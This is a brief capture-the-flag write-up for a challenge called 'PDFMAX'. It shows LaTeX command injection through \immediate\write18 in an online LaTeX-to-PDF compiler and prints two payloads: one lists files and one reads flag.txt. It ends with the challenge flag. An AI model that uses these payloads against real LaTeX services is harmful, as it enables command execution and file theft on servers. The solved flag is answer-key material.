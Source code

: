 # PDFMAX

* This is what happend! I typed this command to connect `nc jh2i.com 50029`, and read this line 
    > pdfmax is an online cloud LaTeX interpreter.  

    I develoed one website for my university, so users can add multiple textbox, images and it will create PDF from LaTeX. I wanted to make it secure so I did some research. And fond that by using LaTeX tags, we can read internal files, execute commands!

* We can use `immediate\write18{ COMMAND_HERE }`, and compile the LaTeX, we can see the command output in the logs.
    
* Test for command execution
    * Select 2nd option to create latex file.
        ```latex
        \documentclass{article}
        \begin{document}
            immediate\write18{ls}
        \end{document}
        |0|
        ```
    * Now choose 3rd option to compile it, and you can see the output in the logs.

* Then we just need to run `cat flag.txt` to get the flag.
    ```latex
    \documentclass{article}
    \begin{document}
        \immediate\write18{cat flag.txt}
    \end{document}
    |0|
    ```

    > ### LLS{write18_my_flag_down_immmediately}